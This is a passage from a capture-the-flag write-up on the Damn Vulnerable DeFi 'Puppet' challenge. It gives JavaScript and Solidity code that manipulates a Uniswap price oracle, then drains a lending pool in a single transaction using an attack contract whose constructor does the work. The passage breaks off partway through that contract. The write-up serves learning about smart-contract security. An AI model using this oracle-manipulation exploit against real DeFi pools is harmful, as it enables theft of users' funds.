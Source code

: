     console.log(`Price of 1000 DVT: ${
        await lendingPool.connect(player).calculateDepositRequired(1000n * 10n**18n) / (10**18)
    } ETH`)

});
{{< /code >}}

{{< image src="./img/poc.png" alt="" position="center" style="border-radius: 5px; max-width: 80%;" >}}

*Small note: You can see I renamed the challenge 'Puppet v1' as there are 2 other challenges named 'Puppet' which also get ran if I use `--grep 'Puppet'`*

As shown in the image, the price of DVT dropped significantly, allowing us to drain the lending pool with just 20 ETH (which we have enough of).

However, if we do borrow the `100000` tokens and drain the lending pool, we still don't pass the challenge, because as discussed before, everything needs to be done in exactly 1 transaction:

```js
console.log("=== Borrowing 100000 DVTs ===")
let ethRequiredToDrain = lendingPool.connect(player).calculateDepositRequired(100000n * 10n**18n)
await lendingPool.connect(player).borrow(
    100000n * 10n**18n, // amount of DVT to borrow
    player.address, // recipient of borrowed DVTs 
    {value: ethRequiredToDrain} // send ETH as collateral
)
console.log(`Player DVTs: ${await token.balanceOf(player.address) / (10**18)}`)
console.log(`Lending Pool DVTs: ${await token.balanceOf(lendingPool.address) / (10**18)}`)
```

{{< image src="./img/fail.png" alt="" position="center" style="border-radius: 5px; max-width: 80%;" >}}

Solve requirement which is not met:

```js
expect(await ethers.provider.getTransactionCount(player.address)).to.eq(1);
```

# Everything in one transaction

Everything should be done with only the `player` account, so we shouldn't create another account just to bypass this condition.

To perform all of these calls; swapping tokens with the Uniswap pool, then borrowing tokens from the lending pool, we can create a contract which **executes everything in its constructor**, using our 1 transaction to deploy the contract, sending all necessary ether along with it.

{{< code language="solidity" title="PuppetAttack.sol" id="4" expand="Show" collapse="Hide" isCollapsed="true" >}}
contract PuppetAttack {
    constructor (
        address owner,
        DamnValuableToken token,
        PuppetPool lendingPool,
        IUniswapExchange uniswapExchange
    ) payable {
        // swap all our DVTs for ETH
        token.approve(address(uniswapExchange), value);
        uniswapExchange.tokenToEthSwapInput(
            1000 * 10**18, // swap 1000 DVT
            9.9 * 10**18, // for 9.9 ETH minimum
            block.timestamp + 3600 // deadline (not important)
        );
